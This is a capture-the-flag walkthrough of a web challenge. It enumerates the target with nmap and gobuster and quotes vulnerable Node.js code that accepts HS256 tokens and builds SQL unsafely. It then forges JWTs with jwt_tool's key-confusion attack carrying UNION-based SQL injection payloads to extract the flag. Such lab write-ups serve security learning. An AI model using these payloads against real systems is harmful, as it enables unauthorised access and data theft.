




# Enumeration

nmap and gobuster:
```shell
└──╼ $nmap -sC -sV -Pn $SERVERIP -oN nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-25 21:04 CEST
Nmap scan report for 64.227.43.55
Host is up (0.035s latency).
Not shown: 905 filtered tcp ports (no-response), 94 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
30951/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

└──╼ $gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://64.227.43.55:30163 -o gobuster.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://64.227.43.55:30163
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/25 21:12:01 Starting gobuster in directory enumeration mode
===============================================================
/auth                 (Status: 200) [Size: 2149]
/logout               (Status: 302) [Size: 27] [--> /auth]
                                                          
===============================================================
2022/09/25 21:12:16 Finished
```

After examine downloaded files, we fouces our investigation on JWT:

```shell
cat helpers/JWTHelper.js                                                                                                      main 
const fs = require('fs');
const jwt = require('jsonwebtoken');

const privateKey = fs.readFileSync('./private.key', 'utf8');
const publicKey  = fs.readFileSync('./public.key', 'utf8');

module.exports = {
    async sign(data) {
        data = Object.assign(data, {pk:publicKey});
        return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
    },
    async decode(token) {
        return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
    }

```
Lets register admin/admin User on web:



Login with admin user:



Get JWT info from burpsuite:



Read information about [JWT](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens), download jwt_tool from git and let's try 


We see on DBHelper.js file some interesting information. There are vars inside sql sentences, so may we can try inject some sql code with jwt_tool help.
```shell
cat ../../files/helpers/DBHelper.js ter 
const sqlite = require('sqlite3');

const db = new sqlite.Database('./database.db', err => {
    if (!!err) throw err;
    console.log('Connected to SQLite');
});

module.exports = {
    getUser(username){
        return new Promise((res, rej) => {
            db.get(`SELECT * FROM users WHERE username = '${username}'`, (err, data) => {
                if (err) return rej(err);
                res(data);
            });
        });
    },
    checkUser(username){
        return new Promise((res, rej) => {
            db.get(`SELECT * FROM users WHERE username = ?`, username, (err, data) => {
                if (err) return rej();
                res(data === undefined);
            });
        });
    },
    createUser(username, password){
        let query = 'INSERT INTO users(username, password) VALUES(?,?)';
        let stmt = db.prepare(query);
        stmt.run(username, password);
        stmt.finalize();
    },
    attemptLogin(username, password){
        return new Promise((res, rej) => {
            db.get(`SELECT * FROM users WHERE username = ? AND password = ?`, username, password, (err, data) => {
                if (err) return rej();
                res(data !== undefined);
            });
        });
    }
}
```

Let's go ahead with first try, get public key and save it on public.pem file:

```shell
./jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGsiOiItLS0tLUJFR0lOIFBVQkxJQyBLRVktLS0tLVxuTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE5NW9UbTlETnpjSHI4Z0xoalphWVxua3RzYmoxS3h4VU9vencwdHJQOTNCZ0lwWHY2V2lwUVJCNWxxb2ZQbFU2RkI5OUpjNVFaMDQ1OXQ3M2dnVkRRaVxuWHVDTUkyaG9VZkoxVm1qTmVXQ3JTckRVaG9rSUZaRXVDdW1laHd3dFVOdUV2MGV6QzU0WlRkRUM1WVNUQU96Z1xuaklXYWxzSGovZ2E1WkVEeDNFeHQwTWg1QUV3YkFENzMrcVhTL3VDdmhmYWpncHpIR2Q5T2dOUVU2MExNZjJtSFxuK0Z5bk5zak5Od281blJlN3RSMTJXYjJZT0N4dzJ2ZGFtTzFuMWtmL1NNeXBTS0t2T2dqNXkwTEdpVTNqZVhNeFxuVjhXUytZaVlDVTVPQkFtVGN6Mncya3pCaFpGbEg2Uks0bXF1ZXhKSHJhMjNJR3Y1VUo1R1ZQRVhwZENxSzNUclxuMHdJREFRQUJcbi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLVxuIiwiaWF0IjoxNjY0NzIxMjg1fQ.dxo7Z1PNUiH8cCnIEsB2DFdXiDNnyluY12d4JjaSmHCD_5os3iLzChVu9hJjNK9mDbX76qcX83kYoZYlkH5MuM_RT-3llOw4MTWACbb08M2Z0QOkFuoRKK3Zy7dFKSPOKzSuvlHHFOqMAYqlvlyE_Ao4vxsZmR0I7DzVO6VqMCJAygTtuRMLauD89wdAdsXlVYSqgcu70VY8J8oeDlQRKjDw5ua6xODjbfR7b3jFFZqnJBto0qq1IuGFvdvi0bKRW_9NlLtE96eohuXdHtTMln79DHZhyfGDQlbmR_lPwpcjGfmLmVYxI1ldOawNi4YMXzNGt99lh1tk81KxDntmRQ

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 

=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "RS256"
[+] typ = "JWT"

Token payload values:
[+] username = "admin"
[+] pk = "-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----
"
[+] iat = 1664721285    ==> TIMESTAMP = 2022-10-02 16:34:45 (UTC)

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------

```

With public.pem file saved:
```shell
cat public.pem
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----hell

```

After readin jwt_tool documentation, let's try with 
#Legends:
#[value] = the value inside bracket is filled by user
#(information) = the value inside parentheses is information about the flag / command./jwt_tool.py [jwt] -I (inject) -pc (payload claim / payload key) [payload key] -pv (payload value) [new payload value] -X (exploit) k (confusing key exploit) -pk (public key) [public key file]

```shell
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGsiOiItLS0tLUJFR0lOIFBVQkxJQyBLRVktLS0tLVxuTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE5NW9UbTlETnpjSHI4Z0xoalphWVxua3RzYmoxS3h4VU9vencwdHJQOTNCZ0lwWHY2V2lwUVJCNWxxb2ZQbFU2RkI5OUpjNVFaMDQ1OXQ3M2dnVkRRaVxuWHVDTUkyaG9VZkoxVm1qTmVXQ3JTckRVaG9rSUZaRXVDdW1laHd3dFVOdUV2MGV6QzU0WlRkRUM1WVNUQU96Z1xuaklXYWxzSGovZ2E1WkVEeDNFeHQwTWg1QUV3YkFENzMrcVhTL3VDdmhmYWpncHpIR2Q5T2dOUVU2MExNZjJtSFxuK0Z5bk5zak5Od281blJlN3RSMTJXYjJZT0N4dzJ2ZGFtTzFuMWtmL1NNeXBTS0t2T2dqNXkwTEdpVTNqZVhNeFxuVjhXUytZaVlDVTVPQkFtVGN6Mncya3pCaFpGbEg2Uks0bXF1ZXhKSHJhMjNJR3Y1VUo1R1ZQRVhwZENxSzNUclxuMHdJREFRQUJcbi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLVxuIiwiaWF0IjoxNjY0NzMzNzU5fQ.JxK9hcv7L4_WhFOEvEY3H7hn0zGJz23FweugIUuNb4TZYK1tjGpPo7RIc26PgbvAKSLUrjIY-A2ina5HAkriGxx8RuCsVtnNHymwlPMH9czOI0Ch4ntSJfaGpZwLrwK7Jmzf-hdLq6U83DdM-LyTrKcKAoxOtbnLHBf_878eSdvWAzbETdfBZpq-CNfjGHSfZHuAfVjo6p_rLNG_fm-c9wCNtTz9oNgHN_pA5pOI8RZXsSPybsDtfUQe68VJQkXK9glMDywxzNmr1-SJuriomkLHUsXSIeHgroijKUIGJi6-5WpkZZJ7PrznLmP0R13cm8Du_d_SU3TVlr4iqjSB2g -I -pc username -pv "admin'union select 1, name, 2 from sqlite_master where type='table' limit 1 offset 0--"  -X k -pk public.pem 

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 

File loaded: public.pem
jwttool_6986aa5ed209a2cc13d5b92b81a20de1 - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluJ3VuaW9uIHNlbGVjdCAxLCBuYW1lLCAyIGZyb20gc3FsaXRlX21hc3RlciB3aGVyZSB0eXBlPSd0YWJsZScgbGltaXQgMSBvZmZzZXQgMC0tIiwicGsiOiItLS0tLUJFR0lOIFBVQkxJQyBLRVktLS0tLVxuTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE5NW9UbTlETnpjSHI4Z0xoalphWVxua3RzYmoxS3h4VU9vencwdHJQOTNCZ0lwWHY2V2lwUVJCNWxxb2ZQbFU2RkI5OUpjNVFaMDQ1OXQ3M2dnVkRRaVxuWHVDTUkyaG9VZkoxVm1qTmVXQ3JTckRVaG9rSUZaRXVDdW1laHd3dFVOdUV2MGV6QzU0WlRkRUM1WVNUQU96Z1xuaklXYWxzSGovZ2E1WkVEeDNFeHQwTWg1QUV3YkFENzMrcVhTL3VDdmhmYWpncHpIR2Q5T2dOUVU2MExNZjJtSFxuK0Z5bk5zak5Od281blJlN3RSMTJXYjJZT0N4dzJ2ZGFtTzFuMWtmL1NNeXBTS0t2T2dqNXkwTEdpVTNqZVhNeFxuVjhXUytZaVlDVTVPQkFtVGN6Mncya3pCaFpGbEg2Uks0bXF1ZXhKSHJhMjNJR3Y1VUo1R1ZQRVhwZENxSzNUclxuMHdJREFRQUJcbi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLVxuIiwiaWF0IjoxNjY0NzMzNzU5fQ.djeMJzeL9hOxm1oYJYjX7nVg8lWoihl9iU8HtW8m9y0

```

Get the flag:

```shell
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGsiOiItLS0tLUJFR0lOIFBVQkxJQyBLRVktLS0tLVxuTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE5NW9UbTlETnpjSHI4Z0xoalphWVxua3RzYmoxS3h4VU9vencwdHJQOTNCZ0lwWHY2V2lwUVJCNWxxb2ZQbFU2RkI5OUpjNVFaMDQ1OXQ3M2dnVkRRaVxuWHVDTUkyaG9VZkoxVm1qTmVXQ3JTckRVaG9rSUZaRXVDdW1laHd3dFVOdUV2MGV6QzU0WlRkRUM1WVNUQU96Z1xuaklXYWxzSGovZ2E1WkVEeDNFeHQwTWg1QUV3YkFENzMrcVhTL3VDdmhmYWpncHpIR2Q5T2dOUVU2MExNZjJtSFxuK0Z5bk5zak5Od281blJlN3RSMTJXYjJZT0N4dzJ2ZGFtTzFuMWtmL1NNeXBTS0t2T2dqNXkwTEdpVTNqZVhNeFxuVjhXUytZaVlDVTVPQkFtVGN6Mncya3pCaFpGbEg2Uks0bXF1ZXhKSHJhMjNJR3Y1VUo1R1ZQRVhwZENxSzNUclxuMHdJREFRQUJcbi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLVxuIiwiaWF0IjoxNjY0NzMzNzU5fQ.JxK9hcv7L4_WhFOEvEY3H7hn0zGJz23FweugIUuNb4TZYK1tjGpPo7RIc26PgbvAKSLUrjIY-A2ina5HAkriGxx8RuCsVtnNHymwlPMH9czOI0Ch4ntSJfaGpZwLrwK7Jmzf-hdLq6U83DdM-LyTrKcKAoxOtbnLHBf_878eSdvWAzbETdfBZpq-CNfjGHSfZHuAfVjo6p_rLNG_fm-c9wCNtTz9oNgHN_pA5pOI8RZXsSPybsDtfUQe68VJQkXK9glMDywxzNmr1-SJuriomkLHUsXSIeHgroijKUIGJi6-5WpkZZJ7PrznLmP0R13cm8Du_d_SU3TVlr4iqjSB2g -I -pc username -pv "admin' and 1=2 UNION SELECT 1,group_concat(top_secret_flaag),3 from flag_storage -- -" -X k -pk public.pem

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 

File loaded: public.pem
jwttool_7b2ff8edcbb3da3fbafb8e1a659af13e - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluJyBhbmQgMT0yIFVOSU9OIFNFTEVDVCAxLGdyb3VwX2NvbmNhdCh0b3Bfc2VjcmV0X2ZsYWFnKSwzIGZyb20gZmxhZ19zdG9yYWdlIC0tIC0iLCJwayI6Ii0tLS0tQkVHSU4gUFVCTElDIEtFWS0tLS0tXG5NSUlCSWpBTkJna3Foa2lHOXcwQkFRRUZBQU9DQVE4QU1JSUJDZ0tDQVFFQTk1b1RtOUROemNIcjhnTGhqWmFZXG5rdHNiajFLeHhVT296dzB0clA5M0JnSXBYdjZXaXBRUkI1bHFvZlBsVTZGQjk5SmM1UVowNDU5dDczZ2dWRFFpXG5YdUNNSTJob1VmSjFWbWpOZVdDclNyRFVob2tJRlpFdUN1bWVod3d0VU51RXYwZXpDNTRaVGRFQzVZU1RBT3pnXG5qSVdhbHNIai9nYTVaRUR4M0V4dDBNaDVBRXdiQUQ3MytxWFMvdUN2aGZhamdwekhHZDlPZ05RVTYwTE1mMm1IXG4rRnluTnNqTk53bzVuUmU3dFIxMldiMllPQ3h3MnZkYW1PMW4xa2YvU015cFNLS3ZPZ2o1eTBMR2lVM2plWE14XG5WOFdTK1lpWUNVNU9CQW1UY3oydzJrekJoWkZsSDZSSzRtcXVleEpIcmEyM0lHdjVVSjVHVlBFWHBkQ3FLM1RyXG4wd0lEQVFBQlxuLS0tLS1FTkQgUFVCTElDIEtFWS0tLS0tXG4iLCJpYXQiOjE2NjQ3MzM3NTl9.YFt8xsOIogoqcx_02wkqsm5VjRf92CzVCYZo7oopI2U
```


